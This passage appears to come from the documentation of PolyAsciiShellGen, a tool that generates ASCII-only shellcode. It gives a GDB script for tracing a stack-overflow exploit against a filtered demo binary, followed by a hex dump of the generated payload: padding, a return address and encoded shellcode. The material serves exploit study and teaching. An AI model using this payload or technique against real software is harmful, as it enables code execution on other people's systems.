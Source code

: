 ```txt
    i r $esp
    sleep_and_continue
  end

  thbreak *$addr_in_ascii_shellcode
  commands
    x/40i $eip
    i r $esp
    sleep_and_continue
  end

  thbreak *$addr_esp_eip_crossing
  commands
    x/20i $eip
    i r $eip
    i r $esp
    delete 1 2 3
    sleep_and_continue
  end
end

# main gdb function
define exploit_ascii_filter_dbg

    set disassembly-flavor intel
    set height 0
    set pagination off

    set exec-wrapper ./exec_wrapper

    break *main
    commands
        stack_overflow_dbg
        ascii_shellcode_dbg_break_settings
        x/3i *main+26
        sleep_and_continue
    end

    run < /tmp/exploit_ascii_filter_stdin_gdb

end

exploit_ascii_filter_dbg
```


The demo script can be started with the `in-gdb` option for the debugger
context execution. The script starts to
show the payload used for the debugging session and then it jumps in gdb.

```text
$ PolyAsciiShellGen/demo/demo_PolyAsciiShellGen.sh in-gdb

[Payload Generation]

00000000  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000010  41 41 41 41 41 41 41 41  24 dc ff ff 0a 54 58 2d  |AAAAAAAA$....TX-|
00000020  5a 5a 5a 5a 2d 78 5a 5a  5a 2d 6a 4c 4b 4b 50 5c  |ZZZZ-xZZZ-jLKKP\|
00000030  25 52 52 52 52 25 25 25  25 25 2d 4b 4a 4a 4a 2d  |%RRRR%%%%%-KJJJ-|
00000040  35 25 25 25 50 2d 6f 6f  55 55 2d 6f 55 25 36 2d  |5%%%P-ooUU-oU%6-|
00000050  4f 42 34 37 50 2d 76 76  76 56 2d 76 76 76 4a 2d  |OB47P-vvvV-vvvJ-|
00000060  38 25 38 25 2d 4c 25 33  25 50 2d 25 73 73 73 2d  |8%8%-L%3%P-%sss-|
00000070  25 48 73 73 2d 37 2d 34  72 50 2d 50 50 50 76 2d  |%Hss-7-4rP-PPPv-|
00000080  50 4d 50 76 2d 4f 63 65  6d 50 2d 72 72 72 72 2d  |PMPv-OcemP-rrrr-|
```